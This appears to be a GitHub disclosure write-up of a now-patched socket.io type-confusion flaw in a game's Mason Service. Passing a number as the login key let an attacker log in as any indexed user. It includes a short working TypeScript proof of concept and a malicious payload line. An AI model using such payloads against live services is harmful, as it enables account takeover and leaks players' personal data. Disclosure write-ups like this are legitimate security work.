

## Introduction

The Mason Service uses [**socket.io**](https://socket.io/) as its communication protocol, where the message payloads are structured like so:

```
42["eventName", "some param", 0, {}, ...]
```

The params can be of any type supported by JSON. The socket.io parser did not by default check the type of the parameter received from the client, meaning an attacker could pass in for example a number in place of an expected string parameter.

## Exploitation

On August 10th 2025 an exploit utilizing this vulnerability was discovered by **Creaffy**. It allowed a malicious attacker to **log into any account**. The screenshot below shows a `loggedIn` response to a crafted `login` request, which logged me into Sneeza's (one of the game's developers) account. I have redacted possibly sensitive information.



While this exploit **was definitely a privacy risk** for the playerbase (personal information like full names and emails could have been leaked), it did not expose the user keys, meaning the attacker **could not actually join a game** on the "stolen" account.
Only actions possible via the Mason Service could have been taken on the account.

### Proof of concept

Normally, the `login` message should have one `userKey` parameter of the `string` type, however in this snippet, a number is passed instead. This resulted in the **n-th entry** in the user keys table to be selected, logging the session in as the user under that index.

```ts
import { MasonService } from "zombslib";

const n = 0;
const mason = new MasonService();
mason.once("socketIoSessionData", () => {
    mason.send(`42["login", ${n}]`);
});
mason.on("loggedIn", (u: ApiUser) => {
    console.log(u);
});
```

```diff
+ Legitimate: 42["login", "deadbeefdeadbeefdeadbeefdeadbeefdeadbeefdeadbeef"]
- Malicious:  42["login", 0]
```

## Patch

The login exploit stopped working within an hour of its discovery. I had not yet reported it by that time so I'm not entirely sure how Jeremiah found out about it but I guess it's a good thing that he reacted so quickly. The general type checker (or rather the lack of it) vulnerability remained active for some time but has since been fully fixed.

## CVE

I am unsure whether this vulnerability actually falls under this CVE, but they do seem to work similarly. <br/>
[**CVE-2022-2421**](https://csirt.divd.nl/cves/CVE-2022-2421/)
